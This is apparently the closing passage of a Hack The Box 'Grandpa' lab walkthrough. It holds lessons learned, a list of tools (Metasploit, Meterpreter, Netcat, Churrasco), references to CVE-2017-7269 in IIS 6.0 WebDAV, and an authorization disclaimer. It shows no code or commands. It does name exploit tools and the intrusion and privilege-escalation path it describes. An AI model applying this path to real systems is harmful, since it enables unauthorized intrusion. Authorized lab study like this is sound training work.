- Initial access should always be followed by systematic local enumeration.
- Privilege escalation requires understanding the current execution context and selecting an appropriate technique rather than relying on trial and error.
- Reviewing public exploit source code before execution provides valuable insight into the underlying vulnerability and expected behavior.
- A complete assessment includes exploitation, privilege escalation, validation, and thorough documentation of the attack path.

---

# Tools Used

- Nmap
- Metasploit Framework
- Searchsploit
- Meterpreter
- Netcat
- Churrasco
- Windows Command Prompt

---

# References

- Microsoft IIS 6.0 WebDAV
- CVE-2017-7269
- Churrasco Token Impersonation Exploit
- Exploit-DB
- Hack The Box — Grandpa

---

> **Disclaimer**
>
> This walkthrough documents an assessment performed exclusively within the authorized Hack The Box laboratory environment. It is intended for educational purposes and to demonstrate penetration testing methodology in a controlled environment.
